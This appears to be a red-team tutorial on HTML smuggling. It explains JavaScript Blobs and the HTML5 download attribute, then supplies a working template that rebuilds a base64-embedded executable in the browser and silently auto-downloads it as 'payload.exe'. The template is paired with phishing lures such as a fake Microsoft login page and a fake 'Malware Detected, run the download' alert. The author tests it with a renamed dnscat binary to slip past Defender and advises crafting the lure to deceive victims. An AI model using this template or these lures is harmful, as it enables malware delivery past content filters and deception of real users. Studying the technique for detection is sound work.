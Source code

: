 # HTML Smuggling

## Summary
HTML Smuggling has been around for a while, but it has seen an uptick in its usage lately with malware like Qakbot utilizing it. 
## What is it?
HTML Smuggling is an evasive payload delivery method that helps an attacker smuggle payload past content filters and firewalls by hiding malicious payloads inside of seemingly benign HTML files. This is possible by using JavaScript blobs and the HTML5 download attribute used with the anchor tag.
## What are anchor tags?
The anchor tag <a> defines a hyperlink that can be used to link one page to another resource like the script, other HTML page or downloadable files. When <a> is used with the “download” attribute, it can be used to provide links to a downloadable file. 
## What is a Javascript Blob?
JavaScript blobs are objects that are a collection of bytes that contain data stored in a file. Blob data is stored in the user’s memory. This collection of bytes can be used in the same places where an actual file would have been used. In other words, blobs can be used to construct file-like objects on the client that can be passed to JavaScript APIs that expect URLs.
Blobs are very useful for storing binary data because their content can be easily read as an ArrayBuffer. Blobs can be stored in the memory or on disk by the web browser, and they can represent truly massive bits of data that are too large to fit in the main memory unless first separated into smaller pieces with the slice () method.
The syntax for creating a JavaScript blob may be defined as:
```
new Blob("blobParts, options");
```
- Blobparts: It is an array of Blob, BufferSource, and string values.
- Options: It is an optional object.
- Type: It is a Blob type, generally MIME-type like image.png.

An example would be:
```
<!DOCTYPE html>  
<html>  
<head>  
    <meta charset="utf-8">  
    <title>JavaScript Blob</title>  
</head>  
<body>  
    <p id="main"></p>  
    <script>  
var abc = new Blob(["Wassup Playa"],   
{type : "text/plain"});  
var def = new FileReader();  
def.addEventListener("loadend", function(e) {  
document.getElementById("main").innerHTML  
     = e.srcElement.result;  
});  
def.readAsText(abc);  
</script>  
</body>  
</html>  
```
Let’s break this down:

1.	We start our HTML document with the tag HTML
2.	This is followed by <head> to indicate a header, where you can store things like meta tags as well as a title
3.	<title> is what will show at the top of the tab
4.	<body> starts the body of the HTML file
5.	<p> is to indicate a parameter. In this case we are specifying ‘main’ as an id element. Later in the HTML we will be referencing this ID. 
6.	<script> indicates that what comes next is Javascript
7.	var abc = new Blob(["Wassup Playa"],   {type : "text/plain"});  We can see this follows the Javascript Blob syntax I mentioned earlier. The text here, Wassup Playa, is what we will want shown on the page, thus it is the data element, in this case being a string value. Then its followed by the MIME type of text/plain. All of this is being assigned to the variable abc, so that whenever abc is used, it really means this Blob that has the string value of Wassup Playa
8.	Next we see a variable assigning FileReader. The FileReader object lets web applications asynchronously read the contents of files (or raw data buffers) stored on the user's computer, using File or Blob objects to specify the file or data to read. This is assigned to the variable def. https://developer.mozilla.org/en-US/docs/Web/API/FileReader 
9.	It is using the FileReader component of addEventListener, which sets up a function that will be called whenever the specified event is delivered to the target. It has the syntax of addEventListener(type, listener) So in our code, the type is FileReader’s loadend event https://developer.mozilla.org/en-US/docs/Web/API/FileReader/loadend_event The loadend event is fired when a file read has completed, successfully or not. Next part is function(e). Function is the function to run when the event occurs, which in this case is the loadend event. 
10.	Next it looks through the document table and gets the element named ‘main’, which we defined earlier in the start of our paragraph. innerHTML sets or returns the HTML content (inner HTML) of an element. In the case of our code, it is setting or changing the value that was in the element with the id of ‘main’ to e.srcElement.result
11.	Next, we see the readAsText portion. This starts reading the contents of the specified Blob, once finished, the result attribute contains the contents of the file as a text string. The Blob is referenced by its variable abc.
12.	The rest of the code just closes out the rest of the HTML document

If we save that and run it in a browser we will see the words Wassup Playa. 
## HTML5 Download Attribute
One way that we can get a user to download something is using the download attribute from HTML5. For this I hosted an Atomic Red Team test dll called s.dll. The raw file can be found [here](https://github.com/sh1katagana1/RedTeam/raw/main/s.dll) So my HTML page that I would send to the victim could look like this (obviously this is not very pretty, just functional for testing)
```
<html>
<body>
<h1>Microsoft Login Page!</h1>
<p>Alert! We detected some unusual activity, Login to continue. </p>
<a href="https://github.com/sh1katagana1/RedTeam/raw/main/s.dll" download="https://github.com/sh1katagana1/RedTeam/raw/main/s.dll">Login Here</a>
</body>
</html>
```
If we load that page we should see the Microsoft Login Page! text and it should prompt for download of s.dll when you click "login to continue". You can see how it can be crafted in whatever way you want, but all that’s being emailed is the HTML that does this. Additionally, the victim may have their browser at default settings which wouldn’t give this prompt but just download it. 

## Malicious Smuggle Test
Now that we have seen benign usage of some ways to do HTML Smuggling, lets try with an actual binary. For this I am using a renamed version of dnscat because I know Defender blocks it as malicious. The dnscat executable I have renamed to leroy3.exe. 
![](smuggle1.png)
First, we need to base64 encode it because the binary can’t directly be copied as a buffer because it contains various characters that might break the buffer and full file may not be copied that way. We use the base64 tool in Kali:
```
Cat leroy.exe | base64
```
![](smuggle2.png)
It is a fairly long output. The issue with this is there is “enter” or carriage returns and its not all in one single line. In order to supply this into our blob as a buffer, we need a single string with no enters. To do this we go [here](https://base64.guru/converter/encode/file) and upload our file and convert it to base64 as plain text-just the base64 value:
![](smuggle3.png)
The goal is to create a JavaScript Blob and a script that will allow us as an attacker to make our code recompile as an EXE file at the victim end. This approach can bypass many content filters and firewalls since the data is travelling as a string text. Here is the template we can use, just replace var binary='<value>' with the actual Base64 string value
```
<html>
<body>
<h1>Malware Detected!</h1>
<p>Alert! Run the downloaded script for anti-virus scan!</p>
<script>
function b64toarray(base64) {
        var bin_string = window.atob(base64);
        var len = bin_string.length;  
        var bytes = new Uint8Array( len );
        for (var i = 0; i < len; i++)
        {
                bytes[i] = bin_string.charCodeAt(i);
        }
        return bytes.buffer;
}
var binary ='<value>'

var data = b64toarray(binary);
var blob = new Blob([data], {type: 'octet/stream'});
var payloadfilename = 'payload.exe';

var a = document.createElement('a');
document.body.appendChild(a);
a.style = 'display: none'; 
var url = window.URL.createObjectURL(blob);
a.href = url;
a.download = payloadfilename;
a.click();
window.URL.revokeObjectURL(url);
</script>
</body>
</html>
```
First, let’s see the results of it, then we can break down whats going on in the script. So when someone gets this HTML and opens it, it will automatically craft the executable from the base64 content and then download it without anyone needing to click a link. Some peoples browsers may simply download without a prompt, so keep that in mind. 
![](smuggle4.png)
There we see it automatically starts the download upon me visiting the page, because of the click() function, and a message stating that whatever was downloaded needs to be run to scan for viruses (of course be more crafty than this). I allow the download and then we can run strings on it to verify it is indeed the dnscat executable. 
![](smuggle5.png)
![](smuggle6.png)
We do see code above indicating it is indeed dnscat. Lets break down what the code is doing:
1.	Function b64toarray: Takes input of our base64 encoded binary file and converts it into a buffer array. This is necessary as the “Blob()” function takes input from a buffer array as the first parameter.
2.	Variable binary: This variable contains the base64 string of our binary and is used to provide function b64toarray input. Replace Value with our base64 encoded string.
3.	Variable blob: Holds the blob we just created and takes two inputs as explained above. Here, since we are providing a binary as input the MIME type becomes octet/stream
4.	Variable payloadfilename: It is the name that will be given to our binary once it is downloaded on the victim’s machine. This is what you would want to name to be convincing to the victim.
5.	CreateElement: A DOM function that can create new HTML elements with the help of JavaScript. For example to create a new para in HTML we type: <p>New Para</p>
6.	style: We are using the styling ‘display: none’ to be more discreet so that a tag isn’t visible on the output.
7.	createObjectURL(): A DOM function that can return a DOMString containing a value that represents the URL of an object. This object can be a file, media source or in our case blob. It is very necessary as the a.download works on valid URLs only. For our payload blob to be downloaded on the victim, we need to supply the a.download element with a valid URL which this function returns.
8.	click(): Is what will trigger this anchor tag to automatically run. It simulates as if a user has actually clicked on the link provided by the href tag.


